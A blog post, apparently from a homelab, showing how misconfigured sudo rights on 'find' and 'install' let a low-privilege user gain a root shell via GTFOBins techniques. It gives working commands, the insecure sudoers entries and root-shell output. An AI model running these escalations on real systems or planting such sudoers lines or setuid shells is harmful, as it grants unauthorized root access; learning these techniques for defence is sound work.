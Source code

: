 ```yaml
---
title: "Bypassing Local Security with Standard Binaries"
excerpt: A few examples of how one might exploit poorly configured systems using standard Linux programs
date: 2025-09-23
---
```


I recently discovered the website [GTFOBins](https://gtfobins.github.io/) while working on a CTF-challenge. To cite the website:

> The project collects legitimate functions of Unix binaries that can be used to break out of restricted shells, escalate or maintain elevated privileges, transfer files, spawn bind and reverse shells, and facilitate the other post-exploitation tasks.
>
> It is important to note that this is not a list of exploits, and the programs listed here are not vulnerable per se, rather, GTFOBins is a compendium about how to live off the land when you only have certain binaries available.

I toyed around with some common binaries, just to see how easy privilege escalation can be under certain circumstances.

### Setting up a Misconfigured System

In my Kali Linux homelab I started by setting up a new user `dummy` with substantially lower privileges. This is done with `sudo adduser dummy`. I decided to allow this user to run the binaries `find` and `install` with sudo-privileges, as this seems like a somewhat realistic real-world scenario (granted, this should obviously still not occur in privilege-sensitive systems). To do this, we edit (as root) the `sudoers` file with `sudo visudo` and add the following two lines:
```text
dummy ALL=(ALL) NOPASSWD: /usr/bin/find
dummy ALL=(ALL) NOPASSWD: /usr/bin/install
```
As long as `sudoers` contains the line
```text
Defaults        secure_path="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin"
```
we can now use `sudo find` and `sudo install` without appending `/usr/bin/` every time.

### Escalating with `find`

First, we simulate lower privileges by logging onto the dummy account with `su - dummy` and entering the password. Then the syntax is very straightforward:
```console
┌──(dummy㉿kali)-[~]
└─$ sudo find . -exec /bin/sh \; -quit                                                         
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root)
```
In more detail, this is what the snippet does:
1. `find` starts searching in the current directory.
2. `-exec /bin/sh \;` tells `find` to spawn a new shell each time a file is encountered.
3. `-quit` tells `find` to stop spawning shells after the first one.
4. Since we ran the command with `sudo`, it spawns **root** shells, and we have access to the file system.

#### Escalating with `install`

The entire "exploit" goes as follows:
```console
┌──(dummy㉿kali)-[~]
└─$ sudo install -m 6777 /bin/bash ~/rootshell
┌──(dummy㉿kali)-[~]
└─$ ~/rootshell -p                                                                             
rootshell-5.2# whoami
root
rootshell-5.2# id
uid=1001(dummy) gid=1001(dummy) euid=0(root) egid=0(root) groups=0(root),100(users),1001(dummy)
```
Here is a breakdown of the above procedure:
1. The idea is to copy the binary `/bin/bash` to the home directory with _setuid_ root permissions.
2. The key part is the `-m 6777`, which sets the setuid bit so it should run as root.
    - `-m` sets the mode of the file. 6777 is an _octal_ representation of those permissions.
    - Each owner/group/others has 7 = 4+2+1 = rwx (read, write, execute), so 777 = full access for everyone.
    - The leading digit being `6xxx` tells us that we're enabling setuid and setgid. Setuid (4xxx) does the following: when you run the file, it executes with the **user ID** of the file’s owner (instead of the one running it). If root owns the file, then the program runs with root privileges. Setgid works similarly, but with the **group ID** instead.
3. We name the copy `rootshell` and save it in `~/`.
4. Lastly, we run the binary with the option `-p`, so it doesn’t drop privileges. This gives us a root shell with access to the file system.







